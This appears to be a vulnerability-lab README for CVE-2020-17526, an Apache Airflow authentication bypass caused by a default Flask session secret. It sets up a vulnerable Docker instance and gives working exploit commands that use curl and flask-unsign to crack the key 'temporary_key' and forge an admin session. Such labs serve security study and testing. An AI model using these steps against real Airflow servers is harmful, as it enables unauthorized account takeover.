




# Apache Airflow Authentication Bypass (CVE-2020-17526)

[中文版本(Chinese version)](README.zh-cn.md)

Apache Airflow is an open source, distributed task scheduling framework. Although authentication is not required by default, but the administration can specify the `webserver.authenticate=True` to enable it.

In the version prior to 1.10.13, Apache Airflow uses a default session secert key, which leads to impersonate arbitrary user when authentication is enabled.

References:

- <https://lists.apache.org/thread/rxn1y1f9fco3w983vk80ps6l32rzm6t0>
- <https://kloudle.com/academy/authentication-bypass-in-apache-airflow-cve-2020-17526-and-aws-cloud-platform-compromise>

## Vulnerability Environment

Execute the following commands to start an airflow 1.10.10 server:

```bash
#Initialize the database
docker-compose run airflow-init

#Start service
docker-compose up -d
```

After the server is started, browse the `http://your-ip:8080` to see the login page of Apache Airflow. Yes, this server required authentication.

## Exploit

Firstly, browse the login page and get a session string from Cookie:

```
curl -v http://localhost:8080/admin/airflow/login
```



Then, use [flask-unsign](https://github.com/Paradoxis/Flask-Unsign) to crack the session key:

```
flask-unsign -u -c [session from Cookie]
```



Bingo, we got the valid session key `temporary_key`. Then, use this key to generate a new session whose `user_id` equals to `1`:

```
flask-unsign -s --secret temporary_key -c "{'user_id': '1', '_fresh': False, '_permanent': True}"
```



Finally, use this generated session to log in successfully:


